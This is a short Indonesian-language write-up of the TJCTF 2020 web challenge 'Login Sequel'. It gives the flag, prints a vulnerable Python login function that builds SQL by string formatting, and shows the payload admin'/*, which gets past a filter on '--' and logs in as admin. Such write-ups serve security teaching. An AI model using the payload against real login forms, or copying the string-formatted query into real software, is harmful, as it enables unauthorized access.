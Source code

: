 # TJCTF2020

## Web

### Login Sequel - 40 Points

### Flag
tjctf{W0w_wHa1_a_SqL1_exPeRt!}
### Deskripsi soal

Redirect ke suatu Website, lakukan Login dan dapatkan flag

### Solusi
Ketika kita redirect ke suatu web, diberikan hint bahwa kita harus login sebagai admin maka username pastilah admin. Lalu jika kita melakukan inspect elemen, didapatkan ada comment section
```
def get_user(username, password):
    database = connect_database()
    cursor = database.cursor()
    try:
        cursor.execute('SELECT username, password FROM `userandpassword` WHERE username=\'%s\' AND password=\'%s\'' % (username, hashlib.md5(password.encode())))
    except:
        return render_template("failure.html")
    row = cursor.fetchone()
    database.commit()
    database.close()
    if row is None: return None
    return (row[0],row[1])
```
Disini dapat diliat source code bagaimana suatu data diambil dari database. Terlihat bahwa kita dapat melakukan SQL Injection dimana, username = admin lalu yang lain dicomment. Akan tetapi bila kita menggunakan double dash (--) akan diblock dan muncul alert bahwa kita menggunakan sql injection, maka yang dapat kita lakukan adalah menggunakan syntax command yang lain yaitu /*

Maka dicoba
```
username = admin'/*
password = sdfsjkl
```

Dengan memasukan value tersebut maka Query menjadi

```
SELECT username, password FROM `userandpassword` WHERE username=admin'/*\' AND password=\'%s\'' % (username, hashlib.md5(password.encode())))
```
Sehingga Query yang valid adalah

```
SELECT username, password FROM `userandpassword` WHERE username=admin'/*
```

Maka ketika kita memasukan value tersebut didapatkan flagnya
